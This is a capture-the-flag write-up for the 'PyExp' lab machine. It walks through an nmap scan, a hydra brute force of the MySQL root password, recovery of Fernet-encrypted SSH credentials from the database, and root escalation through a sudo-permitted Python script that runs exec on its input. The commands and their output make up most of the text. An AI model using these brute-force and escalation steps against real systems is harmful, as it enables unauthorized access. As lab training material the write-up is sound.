

## PyExp: Writeup

Nmap scan reveals two ports open:

```bash
PORT     STATE SERVICE REASON  VERSION
1337/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1olvmlFe91MEIq9rRibmAPSuiBlqVJnjbC14S6GCu5PKOueZLrjF1hTniGpuORaqc0wTfsBSakRTeReOCu8+wny4cvJTmMX+S3OB+6M4FjKHQBCCrf02PTRhmJOCrLbKuoL6duf3jo5ZU+mpEam+oykhhvRJpOkVzuq8ZtTsk0sMCy4ejhTtuAW0HKDqY3OLOSiEyaVwq8X5+ZDF1jB4rVYHtokss3vSpcQ6iyMQDp4YHikD/z9ZnjtS5LMi0AzDydU38dE7Dj2/z1dQOqesgLuvPamUPktLCMXGaxr4d4FddQdovsaIvb4qDGvRoWWTuLgLHNplfUEf5LhtdgA2Z
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERmEc3tsg8x9wZ7nME6bQZdtqQnW3eSc0f4ubmPqJUSsaqb1UP8HYgLQ9wCGbHk0v8/BNi9ME5A9lvnotEAroY=
|   256 8d11edff7dc5a72499227fce2988b24a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHKs3g+g1oyuJQ8RrFUjiZmvBs++u8yCu9NUskGLRnbq
3306/tcp open  mysql   syn-ack MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 41
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, Support41Auth, SupportsCompression, Speaks41ProtocolNew, SupportsLoadDataLocal, LongColumnFlag, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, FoundRows, ODBCClient, ConnectWithDatabase, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: Yer-&vC+M"^8:Z6@zk("
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I don't have any creds for either. However, MySQL has the chance to be configured in a default way, with root usually as a user. I'll try to brute force this service with `rockyou.txt`. It takes some time, but I find a password:

```bash
$ hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.171.118
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-15 18:37:53
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.171.118:3306/
[STATUS] 943.00 tries/min, 943 tries in 00:01h, 14343456 to do in 253:31h, 4 active
[STATUS] 968.67 tries/min, 2906 tries in 00:03h, 14341493 to do in 246:46h, 4 active
[STATUS] 963.00 tries/min, 6741 tries in 00:07h, 14337658 to do in 248:09h, 4 active
[3306][mysql] host: 192.168.171.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
```

Logging in to MySQL remotely, I can see an interesting database, `data`, with a single table: `fernet`:

```bash
$ mysql -h 192.168.171.118 -u root -p
Enter password:

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+

MariaDB [(none)]> use data;

MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+

Inside fernet, I find cred and keyy:

MariaDB [data]> select cred from fernet;
+--------------------------------------------------------------------------------------------------------------------------+
| cred                                                                                                                     |
+--------------------------------------------------------------------------------------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= |
+--------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.038 sec)

MariaDB [data]> select key from fernet;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'key from fernet' at line 1
MariaDB [data]> select keyy from fernet;
+----------------------------------------------+
| keyy                                         |
+----------------------------------------------+
| UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+----------------------------------------------+
1 row in set (0.036 sec)
```

Fernet is a type of encryption. Fortunately, there's a [website](https://asecuritysite.com/tokens/ferdecode) that can decode this for me: 



lucy:wJ9`"Lemdv9[FEw-

I'll take these creds and try them out with the ssh service running on 1337:

```bash
$ ssh lucy@192.168.171.118 -p 1337
The authenticity of host '[192.168.171.118]:1337 ([192.168.171.118]:1337)' can't be established.
ED25519 key fingerprint is SHA256:K18aoM62L+/GHVzkZJScoh+S91IW1EPPvsc1K7UuVbE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.171.118]:1337' (ED25519) to the list of known hosts.
lucy@192.168.171.118's password:
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Collect `local.txt`:

```bash
lucy@pyexp:~$ ls -la
total 28
drwxr-xr-x 2 lucy lucy 4096 Nov 19  2020 .
drwxr-xr-x 3 root root 4096 Aug 10  2020 ..
-rw------- 1 lucy lucy    0 Nov 19  2020 .bash_history
-rw-r--r-- 1 lucy lucy  220 Aug 10  2020 .bash_logout
-rw-r--r-- 1 lucy lucy 3526 Aug 10  2020 .bashrc
-rw-r--r-- 1 lucy lucy   33 Mar 15 18:32 local.txt
-rw-r--r-- 1 lucy lucy  807 Aug 10  2020 .profile
-rw-r--r-- 1 root root   32 Nov 19  2020 user.txt
lucy@pyexp:~$ cat local.txt
dd281e276aa4826eebd32aee8e86de69
```

Check `sudo` privileges:

```bash
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py

Examine this file's permissions and content:
lucy@pyexp:~$ ls -l /opt/exp.py
-rw-r--r-- 1 root root 49 Aug 10  2020 /opt/exp.py
lucy@pyexp:~$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)
```

If I pass it a simple python program to start a bash session while running this with `sudo`, I can become root:

```bash
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py
how are you?import os; os.system('/bin/bash')
root@pyexp:/home/lucy# cd /root
root@pyexp:~# ls
proof.txt  root.txt
root@pyexp:~# cat proof.txt
cde67db539cc6b38f078faba2586dd9a
root@pyexp:~# hostname -I
192.168.171.118
```